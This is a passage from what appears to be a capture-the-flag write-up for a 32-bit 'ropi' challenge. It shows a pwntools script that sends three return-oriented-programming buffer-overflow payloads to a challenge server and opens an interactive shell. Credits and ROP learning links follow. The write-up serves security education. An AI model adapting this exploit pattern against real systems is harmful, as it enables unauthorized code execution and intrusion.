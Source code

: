 ```Python
pro_addr    = 0x0804862c

# Payload Generation
payload      = 'A'*44
payload     += p32(ret_addr)
    payload     += p32(ezy_addr)
    payload     += p32(ret_can)
    payload2     = 'A'*44
    payload2    += p32(ori_addr)
    payload2    += p32(ezy_addr)
    payload2    += p32(ori_can1)
    payload2    += p32(ori_can2)
    payload3     = 'A'*44
    payload3    += p32(pro_addr)
    payload3    += p32(main)

# Start Pwnage
    p = remote('ropi.vuln.icec.tf',6500) # Remote
#p = process('ropi') # local

    p.recv()
    p.sendline(payload)
    p.recv()
    p.sendline(payload2)
    p.recv()
    p.sendline(payload3)
    p.interactive()
```


## Special Thanks:
Special thanks to members both past and present of my club, wcsc, for all the information they shared with me. I was able to finally solve some fairly difficult challenges thanks to them answering my repeated stupid questions (ropi at 131 solves, dear_diary at 78)

## Resources:
I found a ton of great resources during the challenge for learning about ROP attacks:

[Saumil Shah's 'Dive Into ROP'](http://www.slideshare.net/saumilshah/dive-into-rop-a-quick-introduction-to-return-oriented-programming "Dive Into ROP")

[Saumil Shah's 'How Functions Work'](http://www.slideshare.net/saumilshah/how-functions-work-7776073 "How Functions Work")

[Jeffrey Crowell's Blog Post on "Pwning With Radare2"](http://crowell.github.io/blog/2014/11/23/pwning-with-radare2/ "Pwning With R2")
